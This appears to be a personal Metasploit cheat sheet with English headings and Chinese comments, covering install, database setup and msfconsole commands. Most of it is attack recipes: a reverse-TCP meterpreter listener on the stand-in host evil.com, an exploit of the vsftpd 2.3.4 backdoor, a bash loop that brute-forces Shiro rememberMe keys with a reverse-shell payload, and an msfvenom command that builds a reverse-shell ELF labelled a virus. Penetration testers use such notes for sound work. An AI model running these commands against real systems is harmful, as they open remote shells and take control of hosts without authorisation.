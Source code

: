 The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > ~/msfinstall \
&& chmod 755 ~/msfinstall \
&& ~/msfinstall && rm -f ~/msfinstall
```

## 2. Init

```
┌──(nemo@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(nemo@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(nemo@debian)-[~]
└─$ msfconsole
```

Listen

```
msf > use exploit/multi/handler
show payloads
set PAYLOAD linux/x86/meterpreter/reverse_tcp
show options
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
msf > search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show payloads
set PAYLOAD cmd/unix/interact
show options
set RHOSTS example.com
set RPORT 80
set LHOST/CHOST evil.com
set LPORT/CPORT 4444
set TARGET 0
check
run
```

Script

```
#!/bin/bash

RHOSTS="example.com"
RPORT="80"
MODULE="exploit/multi/http/shiro_rememberme_v124_deserialize"
PAYLOAD="cmd/unix/reverse"
LHOST="evil.com"
LPORT="4444"
KEYFILE="$HOME/shiro_keys.txt"

while IFS= read -r KEY || [ -n "$KEY" ]; do
  echo "[*] Key: $KEY"
  msfconsole -q -x "use ${MODULE}
set RHOSTS ${RHOSTS}
set RPORT ${RPORT}
set ENC_KEY ${KEY}
set PAYLOAD ${PAYLOAD}
set LHOST ${LHOST}
set LPORT ${LPORT}
exploit
exit" 

done < "$KEYFILE"

```

```
msf > help       # 列出所有命令帮助
<command> -h     # 列出指定命令的常用帮助
help <command>   # 列出指定命令的完整帮助
back             # 返回
exit             # 退出
check            # 探测漏洞
run              # 执行模块
run -j           # 后台执行模块
jobs             # 列出后台任务
jobs -v          # 列出后台任务详情
jobs -K <Id>     # 终止所有后台任务
jobs -k <Id>     # 终止指定后台任务
sessions         # 列出会话
sessions -i <Id> # 进入会话
sessions -k <Id> # 终止会话
```

### 3.2. msfvenom

生成病毒

```
┌──(nemo@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=evil.com LPORT=4444 -f elf -o ~/virus
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

